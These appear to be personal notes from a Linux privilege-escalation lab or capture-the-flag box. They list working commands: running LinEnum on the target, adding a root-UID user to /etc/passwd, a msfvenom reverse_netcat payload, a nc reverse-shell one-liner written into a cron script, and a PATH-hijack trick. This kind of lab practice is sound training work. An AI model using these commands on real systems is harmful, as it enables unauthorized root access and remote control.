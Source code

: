 Downloads file `LinEnum.sh` :  https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

connect to the machine.
name : polobox -> 8 user[x] -> cat etc/shells ->4 shell
login to user4 -> autoscript.sh -> etc/passwd

make a listen port : python3 -m http.server 8000 -> Download file LinEnum.sh to the target machine -> run
connect to user7 -> make a password hash : `openssl passwd -1 -salt [salt] [password]` -> `$1$new$p7ptkEKU1HnaHpRtzNizS1` ( salt : new , password : 123)

add new user with password hash to /etc/passwd : `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash` -> su new ( change to `new` user)
remember : `sudo -l ` to check command use as root user.

edit vim -> to be come root .
connect to user4 -> download file LinEnum.sh -> run
make a payload in host machine : `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`

add payload to file autoscript.sh : `echo 'mkfifo /tmp/yajqabh; nc 10.8.85.62 8888 0</tmp/yajqabh | /bin/sh&1; rm /tmp/yajqabh' > autoscript.sh`
wait 5' for file can run.


echo "/bin/bash" > ls
chmod +x ls
export PATH=/tmp:$PATH
cd ~ -> ./script